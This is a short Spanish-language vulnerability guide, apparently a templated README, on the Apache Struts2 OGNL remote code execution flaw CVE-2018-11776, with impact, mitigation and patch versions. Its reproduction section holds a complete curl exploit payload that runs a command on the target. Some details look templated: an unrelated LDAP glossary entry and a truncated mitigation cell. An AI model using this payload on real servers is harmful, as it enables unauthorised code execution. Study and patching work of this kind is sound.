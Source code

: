 # CVE-2018-11776 Guía de Vulnerabilidad: Apache Struts2 OGNL RCE

## 🔎 Descripción General

- **CVE-2018-11776**: Una vulnerabilidad en la construcción de URLs en Apache Struts2 que permite inyecciones OGNL y ejecución remota de código.

## ⚠️ Impacto

RCE mediante inyección de comandos en URLs.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

**Pasos para reproducir:**

1. Ejecuta un servidor Apache Struts2 vulnerable.
2. Usa curl:
   ```bash
   curl http://<victima>/struts2-showcase/index.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20String[]{{'id'}})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char[500],%23d.read(%23e),%23f%3dnew%20java.lang.String(%23e),%23f}
   ```
3. El resultado del comando aparecerá en la respuesta.


⚠️ **Advertencia:** Nunca pruebes estas técnicas fuera de un entorno de laboratorio controlado y con autorización explícita.

## 🛡️ Mitigación

Actualizar Apache Struts2 a la versión 2.3.35 o 2.5.17 o superior.

## 📝 Glosario

- **RCE**: Ejecución remota de código.
- **PoC**: Prueba de concepto.
- **LDAP**: Protocolo de acceso ligero a directorios.

## ✅ Tabla Resumen

| Aspecto              | Detalles                    |
|----------------------|-----------------------------|
| ID CVE               | CVE-2018-11776                    |
| Nombre               | Apache Struts2 OGNL RCE                     |
| Impacto              | RCE mediante inyección de comandos en URLs      |
| Tipo de Explotación  | RCE                         |
| Requiere Autenticación | No                        |
| Mitigación           | Actualizar Apache Struts2 a la versión 2  |

## 🔄 Próximos Pasos

- Verificar si tu sistema está afectado.
- Aplicar los parches necesarios.
- Configurar controles de mitigación adicionales si no se puede parchear inmediatamente.
